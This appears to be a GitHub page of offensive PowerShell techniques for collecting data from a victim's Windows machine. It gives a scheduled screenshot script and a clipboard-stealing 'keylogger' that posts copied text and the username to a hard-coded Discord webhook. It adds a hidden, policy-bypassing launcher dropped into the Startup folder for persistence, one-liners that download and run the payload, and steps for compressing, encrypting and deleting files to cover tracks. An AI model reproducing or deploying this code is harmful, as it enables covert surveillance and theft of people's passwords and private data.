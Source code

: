 # Collection

## Snapshots

The following script takes a screenshot of the system and saves it to a given path.

You may modify the following script and schedule it to take screenshots every x number of minutes.

*Note: The following script was written by the author.*

```
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")
$path=$args[0]
function screenshot($path)
{
    $width = 0;
    $height = 0;
    $workingAreaX = 0;
    $workingAreaY = 0;
    $screen = [System.Windows.Forms.Screen]::AllScreens;
    foreach ($item in $screen)
    {
        if($workingAreaX -gt $item.WorkingArea.X)
        {
            $workingAreaX = $item.WorkingArea.X;
        }

        if($workingAreaY -gt $item.WorkingArea.Y)
        {
            $workingAreaY = $item.WorkingArea.Y;
        }

        $width = $width + $item.Bounds.Width;

        if($item.Bounds.Height -gt $height)
        {
            $height = $item.Bounds.Height;
        }
    }

    $bounds = [Drawing.Rectangle]::FromLTRB($workingAreaX, $workingAreaY, $width, $height);
    $bmp = New-Object Drawing.Bitmap $width, $height;
    $graphics = [Drawing.Graphics]::FromImage($bmp);
    $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);
    $bmp.Save($path);
    $graphics.Dispose();
    $bmp.Dispose();
    echo "Image saved !!"
    echo $path
}
echo 'USAGE: ./screenshot.ps1 "C:\Users\Public\image.png"'
screenshot($path)
```

## Keylogger

The powershell scripts posts the clipboard content to the Discord chat when the user presses Ctrl+c or Ctrl+x

- Create a Discord webhook and add it as the value of $hookUrl in the script. [Discord Webhooks](https://discordjs.guide/popular-topics/webhooks.html#what-is-a-webhook)
- Save the following script as update.ps1
- Save update.ps1 to $env:userprofile\AppData\Roaming

```
Add-Type -AssemblyName WindowsBase
Add-Type -AssemblyName PresentationCore

function dischat {

  [CmdletBinding()]
  param (    
  [Parameter (Position=0,Mandatory = $True)]
  [string]$con
  ) 
  
  $hookUrl = 'https://discord.com/api/webhooks/1073180088213970974/yOv89KtG64YMHt20rYTDXrO_a43b7KroOMoZ2JipIHMM5VIjGZ8_ngDs8JMAYEom4kmT'
  
$Body = @{
  'username' = $env:username
  'content' = $con
}


Invoke-RestMethod -Uri $hookUrl -Method 'post' -Body $Body

}


dischat (get-clipboard)

while (1){
    $Lctrl = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::'LeftCtrl')
    $Rctrl = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::RightCtrl)
    $cKey = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::c)
    $xKey = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::x)

       if (($Lctrl -or $Rctrl) -and ($xKey -or $cKey)) {dischat (Get-Clipboard)}
       elseif ($Rctrl -and $Lctrl) {dischat "---------connection lost----------";exit}
       else {continue}
} 
```

.bat script to run the powershell script

Save the following script as per.bat

```
@echo off
powershell -Command "& {cd "$env:userprofile\AppData\Roaming"; powershell -w h -NoP -NonI -Ep Bypass -File "update.ps1"}"
pause
```

Then save the bat file into startup programs and run the bat script by double clicking on it.

You can also host the scripts online, download them and run them using the three following commands.

```
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/<your-github>/<your-repor>/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/<your-github>/<your-repor>/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 

```



## Zipping files and directories

### Zipping

`Compress-Archive -Path C:\path\to\file\*.jpg -DestinationPath C:\path\to\archive.zip`

### Unzipping

`Expand-Archive -LiteralPath 'C:\Archives\Draft[v1].Zip' -DestinationPath C:\Reference`

## Encryption

### Creating encryption key

```
$EncryptionKeyBytes = New-Object Byte[] 32
[Security.Cryptography.RNGCryptoServiceProvider]::Create().GetBytes($EncryptionKeyBytes)
$EncryptionKeyBytes | Out-File "./encryption.key"
```

### Encrypting file

```
$FileContent = Get-Content ".\file.txt"
$EncryptionKeyData = Get-Content "./encryption.key"
$secureString = ConvertTo-SecureString $FileContent -AsPlainText -Force
$Encrypted = ConvertFrom-SecureString -SecureString $secureString -Key $EncryptionKeyData | Out-File -FilePath "./secret.encrypted"
```

### Decrypting file

```
$EncryptionKeyData = Get-Content "./encryption.key"
$PasswordSecureString = Get-Content "./secret.encrypted" | ConvertTo-SecureString -Key $EncryptionKeyData
$PlainTextPassword = [System.Runtime.InteropServices.Marshal]::PtrToStringBSTR([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($PasswordSecureString))
$PlainTextPassword | Out-File -FilePath ./plaintext.txt
$PlainTextPassword
```

## Deleting files

You may want to clean up after yourself.

`Remove-Item C:\Test\*.*`
`Remove-Item C:\Users\Public\*.*`


